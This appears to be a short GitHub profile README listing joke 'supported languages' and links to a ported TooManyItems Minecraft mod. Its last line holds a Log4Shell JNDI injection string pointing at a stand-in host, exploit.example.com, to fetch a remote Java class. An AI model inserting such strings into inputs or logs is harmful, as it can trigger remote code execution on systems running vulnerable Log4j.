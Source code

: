 # Supported languages:
- English
- International Phonetic Alphabet
- Autistic Chinese
- lang.128.name

## TOOMANYITEMS mod For 1.8.9 and Legacy Fabric(unoffically upgraded&ported by me)
github.com/HowardZHY/TooManyItems
https://github.com/HowardZHY/TooManyItems-LegacyFabric


Most people thonk I'm at least 30, 40 even 50 years old.


debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
